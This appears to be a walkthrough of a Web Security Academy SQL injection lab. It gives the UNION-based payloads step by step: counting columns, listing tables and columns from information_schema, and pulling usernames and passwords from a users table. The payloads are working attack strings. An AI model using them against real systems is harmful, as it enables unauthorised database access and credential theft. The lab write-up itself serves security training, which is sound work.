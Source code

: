 ## Find the number of columns:
+ `'+ORDER+BY+3--`
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/1c44bf07-d26e-42dd-adac-2a216c3760b7)
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/7178e58f-af94-4679-9b6a-0c3e62ac1690)
## Find out the table names:
+ `'UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/f323c4fa-b44b-4cbf-aded-80fa40861b21)

## find out the column names:
+ `'UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name+%3d+'users_mparsa'-- `
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/6124cbc8-0e55-418d-abf5-ea350c10dd49)

## retrieve the data from the table:
+ `'UNION+SELECT+username_qgqovf,+password_zrdbze+FROM+users_mparsa--`
+ ![grafik](https://github.com/alireza-cloud/Burp-Challenge-Web-Security-Academy/assets/62068604/cb603ac0-214a-4063-a762-c14bc040d41e)

